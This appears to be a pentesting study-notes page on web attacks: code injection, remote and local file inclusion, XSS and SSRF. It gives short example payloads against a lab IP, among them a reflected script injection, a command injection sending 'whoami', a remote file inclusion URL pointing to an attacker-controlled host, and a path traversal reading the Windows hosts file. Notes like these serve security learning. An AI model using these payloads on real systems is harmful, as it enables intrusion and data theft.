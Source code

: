 # Code Injection

Occurs when we find a way of sending html, css or js code via a petition or URL of a website

**Example:**

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://192.168.20.40:8000/?msg=Hello
# The site Return "Hello" in any part of the html
#Then we could do something like this to inject code
<strong>curl http://192.168.20.40:8000/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A petition is using system()

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://192.168.20.40:8000/?msg -d "cmd=whoami"
```
{% endcode %}

***



## <mark style="color:green;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to redirect actions to or from a another server

{% code overflow="wrap" lineNumbers="true" %}
```url
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}

***



## <mark style="color:green;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=../../../../../../WINDOWS/system32/drivers/etc/hosts #Common file for save host name and ip in windows, we use ../ to get to the root directory C:\
```
{% endcode %}

***



## <mark style="color:green;">Uploaded File Exploits</mark>

When a server-side app allows to upload file that can be executed through the web app



## <mark style="color:green;">Cross-site Scripting</mark>

Both reflected and DOM-based scripting that allows execution of javascript maliciuos code



## <mark style="color:green;">Server-side Request Forgery</mark>

When an application allows network reuqest to the internal network of the server
